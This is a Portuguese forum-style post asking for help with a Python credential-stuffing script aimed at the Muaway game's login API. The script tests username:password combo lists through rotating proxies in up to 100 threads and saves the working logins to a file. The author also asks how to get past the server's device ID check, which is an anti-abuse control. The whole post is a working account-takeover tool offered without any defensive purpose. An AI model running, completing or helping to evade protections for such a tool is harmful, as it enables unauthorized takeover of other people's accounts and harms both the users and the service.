 # testado-user-pass-muaway.net
estou tentando fazer um testador de usuario e senha encima do apk do muaway e na requisicao ele pede um device id  so que quando intercepto pelo fiddler, nao tem nenhuma api que atentiica ou gera esse device id oo script esta pronto alguem consgeue me ajudar ?  ja tentei fazer gerar aletorio porem ele nao acessa ! diz que o device id é invalido !


import requests
import json
import random
import threading
from concurrent.futures import ThreadPoolExecutor

# Endpoint e headers fixos conforme capturados
URL = "https://webapi.muaway.net/auth/login/muaway-login"
HEADERS = {
    "Host": "webapi.muaway.net",
    "Connection": "keep-alive",
    "Origin": "https://auth.muaway.net",
    "Set-Service": "GameAuthentication",
    "User-Agent": ("Mozilla/5.0 (Linux; Android 7.1.2; SM-N975F Build/N2G48H; wv) "
                   "AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/68.0.3440.70 Mobile Safari/537.36"),
    "Content-Type": "application/json",
    "Accept": "application/json",
    "Set-App-Platform": "android",
    "Set-Locale": "pt-BR",
    "Referer": "https://auth.muaway.net/muaway-login",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "pt-BR,en-US;q=0.9",
    "X-Requested-With": "com.away.game.br"
}

# Payload base conforme capturado (exceto username e password)
PAYLOAD_TEMPLATE = {
    "sessionId": "3a98b348-e432-1b28-98aa-8dad64f2caf8",
    "username": None,  # Será preenchido
    "password": None,  # Será preenchido
    "deviceId": "ky31sIqAEXBTamzCiG3Ok85UYTnaKuyBjuDKGAX0KRQ=\n",
    "deviceIdLegacy": None
}

# Cria uma trava para escrita no arquivo de log
write_lock = threading.Lock()

def read_proxies(filename):
    """Lê os proxies do arquivo (um por linha)."""
    with open(filename, "r") as f:
        proxies = [line.strip() for line in f if line.strip()]
    return proxies

def read_credentials(filename):
    """Lê as credenciais do arquivo, esperando o formato username:password."""
    creds = []
    with open(filename, "r") as f:
        for line in f:
            line = line.strip()
            if line:
                parts = line.split(":", 1)
                if len(parts) == 2:
                    creds.append((parts[0].strip(), parts[1].strip()))
    return creds

def log_success(username, password, response_text):
    """Salva a credencial que logou com sucesso no arquivo 'logados.txt'."""
    with write_lock:
        with open("logados.txt", "a") as f:
            f.write(f"{username}:{password} | Resposta: {response_text}\n")

def test_login(credential, proxies):
    username, password = credential
    # Escolhe um proxy aleatório
    proxy = random.choice(proxies)
    proxy_dict = {"http": proxy, "https": proxy}
    
    # Preenche o payload com os dados do usuário
    payload = PAYLOAD_TEMPLATE.copy()
    payload["username"] = username
    payload["password"] = password

    print(f"\nTestando login para: {username}:{password} usando proxy: {proxy}")
    try:
        response = requests.post(URL, headers=HEADERS, json=payload, proxies=proxy_dict, timeout=15)
        print(f"Status Code: {response.status_code}")
        print(f"Resposta: {response.text}")
        # Se o login for considerado bem-sucedido (ex.: status 200), grava a credencial
        if response.status_code == 200:
            log_success(username, password, response.text)
    except Exception as e:
        print(f"Erro para {username}:{password} com o proxy {proxy}: {e}")

def main():
    # Lê proxies e credenciais dos arquivos
    proxies = read_proxies("proxy.txt")
    credentials = read_credentials("lista.txt")
    
    if not proxies:
        print("Nenhum proxy encontrado!")
        return
    if not credentials:
        print("Nenhuma credencial encontrada!")
        return
    
    # Solicita ao usuário que escolha o número de threads (de 1 a 100)
    while True:
        try:
            threads = int(input("Digite o número de threads (1-100): "))
            if 1 <= threads <= 100:
                break
            else:
                print("Por favor, insira um número entre 1 e 100.")
        except ValueError:
            print("Entrada inválida. Por favor, insira um número válido.")

    # Cria um pool de threads para executar os testes de login em paralelo
    with ThreadPoolExecutor(max_workers=threads) as executor:
        for credential in credentials:
            executor.submit(test_login, credential, proxies)

if __name__ == "__main__":
    main()
